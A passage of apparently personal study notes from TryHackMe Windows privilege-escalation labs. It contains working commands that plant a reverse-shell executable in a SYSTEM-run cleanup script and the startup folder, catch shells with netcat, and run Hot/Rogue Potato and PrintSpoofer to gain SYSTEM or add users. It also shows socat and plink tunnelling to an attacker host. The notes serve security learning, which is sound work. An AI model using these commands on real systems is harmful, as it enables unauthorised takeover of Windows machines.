        1 file(s) copied.

C:\Users\user>echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

C:\Users\user>type C:\DevTools\CleanUp.ps1
type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
C:\PrivEsc\reverse.exe 
```

And we have a shell:

```console
root@kali:~/thm/windows10privesc# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.35.147] from (UNKNOWN) [10.10.127.237] 49915
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami

```

___

## Insecure GUI apps

Some GUI apps may run with administrator privileges.

```cmd
> tasklist /V | findstr admin
```

With this app, if we can open `file://c:/windows/system32/cmd.exe` we can perform a privesc.

___

## Startup Apps

Startup directory for apps that should start for all users: `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

We can verify if we have the right permissions on that directory:

```cmd
C:\Users\user>C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW WIN-QBA94KB3IOF\Administrator
  RW WIN-QBA94KB3IOF\admin
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  R  Everyone
```

Then we have to create a shortcut, sign out and sign in again:

```cmd
C:\Users\user>type C:\PrivEsc\CreateShortcut.vbs
type C:\PrivEsc\CreateShortcut.vbs
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save

C:\Users\user>cscript C:\PrivEsc\CreateShortcut.vbs
cscript C:\PrivEsc\CreateShortcut.vbs
Microsoft (R) Windows Script Host Version 5.812
Copyright (C) Microsoft Corporation. All rights reserved.
```

___

## Installed Applications exploits

Listing all programs that are running:

```
> tasklist /v
```

Using **seatbelt**, we can look for nonstandard processes:

```cmd
> .\seatbelt.exe NonstandardProcesses
```

**winPEAS** also has this ability:

```cmd
> .\winPEASany.exe quiet procesinfo
```

___

## Hot Potato

**Hot Potato** is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges.

The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. 

The NTLM credentials then get relayed to SMB in order to gain command execution.

This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

```cmd
.\potato.exe -ip <IP> -cmd "C:\PrivEsc\reverse.exe" -enable_httpservertrue -enable_defendertrue -enable_spooftrue -enable_exhausttrue
```

> Target is a Windows 7

```
potato.exe -ip <local ip> -cmd "c:\\windows\\system32\\cmd.exe /K net users username password /add" -disable_exhaust true
```

___

## Token impersonation

Service accounts can be given special privileges in order for them to run their services, and cannot be logged into directly.

Service accounts are generally configured with these two privileges:

- `SeImpersonate`
- `SeAssignPrimaryToken`

They allow the account to impersonate the access tokens of other users (SYSTEM included).

> Some ways to get a shell from service accounts: reverse shell on IIS web server, SQLi on MSSQL, etc. 

```
whoami /priv
```

### Rotten Potato

Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user.

### Juicy Potato

It works the same way as Rotten Potato, but the authors did extensive research and found many more exploit methods.

- <https://github.com/ohpe/juicy-potato>

### Rogue Potato

- <https://github.com/antonioCoco/RoguePotato>
- <https://github.com/antonioCoco/RoguePotato/releases>
- <https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/>

1. On Kali, forward port 135 to port 9999: 

`socat tcp-listen:135,reuseaddr,fork tcp:10.10.178.251:9999`

2. Start a listener and use `PSExec64.exe` as Admin to trigger the reverse shell executable with the permissions of the "local service" account:

```cmd
C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeSystemtimePrivilege         Change the system time                    Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

C:\Windows\system32> C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

3. Run the Rogue Potato exploit:

```cmd
C:\PrivEsc\RoguePotato.exe -r 10.11.35.147 -e "C:\PrivEsc\reverse.exe" -l 9999
```

### PrintSpoofer

PrintSpoofer is an exploit that targets the Print Spooler service.

- <https://github.com/itm4n/PrintSpoofer>
- <https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/>


- Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:

`C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`

- Start another listener on Kali.

- Now, in the "local service" reverse shell you triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):

`C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i`


___

## Port Forwarding


- Enable firewall on Windows:

```cmd
C:\> netsh advfirewall set allprofiles state on
```

- `plink.exe <user>@<kali> -R <kali-port>:127.0.0.1:<target-port>` (forward a port on Kali to an internal port on Windows?)

- On Kali:

```bash
$ winexe-U '<user>%<pass>' //127.0.0.1 cmd.exe
```

___

## Strategy

1. Check user and group permissions
2. Run enumeration tools like **winPEAS** (fast, searchfast and cmd options) or **Seabelt** as well as other scripts such as `PowerUp` or `SharUp`
    + Look at service/registry exploits
    + Enumerate admin processes and their versions
    + Check Internal ports 
3. Looks at some cheat sheets like [PayloadAllTheThings - Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#windows---privilege-escalation)
4. Start to think about Kernel exploits

___

## Resources

- [THM - Windows PrivEsc](https://tryhackme.com/room/windows10privesc)
- [THM - Windows PrivEsc Arena](https://tryhackme.com/room/windowsprivescarena)
- [PayloadAllTheThings - Windows - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#windows---privilege-escalation)
- [THM - Post-Exploitation Basics](https://tryhackme.com/room/postexploit)
- [THM - Attacking Kerberos](https://tryhackme.com/room/attackingkerberos)
- [THM - ICE](https://tryhackme.com/room/ice)